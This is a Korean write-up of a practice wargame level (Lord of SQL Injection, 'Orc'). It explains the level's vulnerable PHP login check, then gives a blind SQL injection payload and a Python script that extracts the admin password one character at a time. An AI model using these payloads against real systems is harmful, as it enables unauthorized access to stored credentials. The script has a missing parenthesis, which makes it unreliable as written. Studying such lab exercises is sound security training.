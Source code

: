 # Lord of SQL Injection No.4 - Orc
## 문제 출제 의도
기본적인 Blind SQL을 할 수 있는지 확인한다.
## 소스 코드 분석
+ 소스 코드  
Orc의 소스코드는 다음과 같다.
    ~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello admin</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - 금지 문자, 문자열
        + GET 방식으로 입력 받은 pw값에 prob _ . () 중 하나라도 있다면 "No Hack ~_~"이 출력되고 문제 풀이에 실패한다.
    - addslashes 함수
        ~~~
        string addslashes ( string $str )
        ~~~
        *  특수문자로 부터 발생될 수 있는 에러를 피하기위해 특수문자 앞에 역슬래쉬를 붙여주는 역활을하는 함수.
        * 원래대로 돌려줄때는 백슬레쉬를 제거해주는 stripslashes() 함수를 쓴다.
    - 풀이 성공 조건
        * 데이터베이스에서 받은 pw값이 0이 아니라면 "Hello admin"이 출력된다.
        * 데이터베이스에서 받은 pw와 GET방식으로 전달받은 pw가 같아야 한다.

## 문제 해결
+ pw길이
    - 직접 패스워드를 알아야 함으로 우선 비밀번호가 몇 글자인지 알아야 한다.
    - 따라서 URL 뒤에 다음과 같은 문자열을 추가 하여 확인 가능하다.
    ~~~
    ?pw=' or id='admin' and length(pw)=8-- -
    ~~~
    - 이는 Hello admin을 출력하게 만들기 때문에 우리는 pw가 8자리인 것을 알 수 있다.
+ pw값
    - substr함수
        * substr은 다음과 같은 형식을 취한다.
        ~~~
        substr(대상문자열,시작index, 길이)
        ~~~
        * 문자열을 자르는 함수이다. 시작 인덱스에서 길이만큼 문자열을 자른다.
        * 이를 통해 문자열을 잘라 문자를 하나씩 알아낸다.

    - 위 방법과 유사하게 한글자씩 알아내는 것은 코드를 이용하여 풀면 편하다.  
    - 다음과 같은 파이썬 코드를 이용하면 pw값을 쉽게 알 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote
    key = ""
    for i in range(1, 9):
        for j in range(48, 127):
            url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw="
            data="' or id='admin' and substr(pw,1,{})='{}'#".format(str(i), key + chr(j)
            print(data)

            data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36") 
            re.add_header("Cookie", "PHPSESSID=4p56htpvcookallo00ondblnf6")

            res = urllib.request.urlopen(re)

            if str(res.read()).find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ~~~
    - 위 코드를 실행하면 295d5844가 출력된다. 이를 pw값에 GET 방식으로 입력하면 해결된다.